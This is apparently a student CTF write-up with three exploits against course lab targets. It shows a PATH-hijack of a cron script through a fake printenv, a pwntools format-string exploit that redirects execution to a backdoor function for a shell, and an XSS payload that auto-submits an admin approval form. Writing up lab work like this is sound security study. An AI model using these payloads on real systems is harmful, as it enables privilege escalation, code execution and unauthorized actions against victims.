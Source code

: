 # CTF extra challenges

## British punctuality

On the `home/flag_reader` we noticed a script and upon analyzing further we noticed a vulnerability.
It was using the command `printenv` by calling a relative path. This meant we could exploit it by re-writing the PATH environment variable.
Because the script was using a file to load the environment, we created one to change the PATH variable.

```bash
nobody@caea6090734d:/tmp$ ls
env	last_log 
nobody@caea6090734d:/tmp$ cat env
export PATH=/tmp/:$PATH
```

The server was running `cron` to perform the script every minute. Our user did not have access to the flag file but the cron job did. So now we just needed to create our own `printenv` in order to get the flag.

```bash
nobody@caea6090734d:/tmp$ echo "cat ../flags/flag.txt" > printenv
```

After waiting for the script to be executed again, we opened the last_log and there was the flag.

## FinalFormat

After opening the program, we tested if the string format vulnerability was still there:

```bash
seed@VM:~/ctf/FinalFormat$ ./program 
There is nothing to see here...a%x%x
You gave me this:a2578256178
```

For this challenge, the backdoor had been removed. However, by using gdb we were able to find that it was still present in the code:

```bash
gdb-peda$ info functions
All defined functions:

Non-debugging symbols:
...
0x08049236  old_backdoor
...
``` 

Because of this, our plan was to redirect the flow of the program to that address. 
However, using `checksec` we figured that writing in the stack would be a tough task:

```bash
gdb-peda$ checksec
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

Therefore, we used the gdb to try and find instructions where the code would use calls and jumps to other addresses.
Soon enough we found a jump to the following address: `0x0804c010`.

Now, we built an exploit that would re-write the backdoor function to that address using format vulnerabilities:

```py
from pwn import *

LOCAL = False

if LOCAL:
    pause()
else:    
    p = remote("ctf-fsi.fe.up.pt", 4007)

#0x08049236  old_backdoor

N = 60
content = bytearray(0x0 for i in range(N))

content[0:4]  =  (0xaaaabbbb).to_bytes(4, byteorder='little')
content[4:8]  =  (0x0804c012).to_bytes(4, byteorder='little')
content[8:12]  =  ("????").encode('latin-1')
content[12:16]  =  (0x0804c010).to_bytes(4, byteorder='little')

s = "%.2036x" + "%hn" + "%.35378x%hn"

fmt  = (s).encode('latin-1')
content[16:16+len(fmt)] = fmt

p.recvuntil(b"here...")
p.sendline(content)
p.interactive()
```

Running this, we were able to prompt a shell and cat the flag.

## Aply for Flag II

The description of the challenged mentioned the websites were separated. However, the XSS vulnerability was still there.
Because the admin would see the justification in a different page from the admin gui, we first tried sending a POST request with `fetch` using XSS.

```html
<script type="text/javascript">
fetch('http://ctf-fsi.fe.up.pt:5005/request/[id]/approve', {
    method: 'POST',
    credentials: 'include',
    mode: 'no-cors',
    headers: {
        'Accept': 'application/json',
        'Content-Type': 'application/json'
    },
    body: JSON.stringify({ "giveflag": "Give the flag" })
});
</script>
```

For some reason this did not work. Then, we tried actually creating a form identical to the admin one and force a click:

```html
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/[id]/approve" role="form">
    <div class="submit">
        
        <input id="abc" type="submit" id="giveflag" value="Give the flag">
        
    </div>
</form>
<script type="text/javascript">
document.querySelector('#abc').click()
</script>
```

After disabling js in the browser (to avoid running the script ourselves), we were able to get the flag.

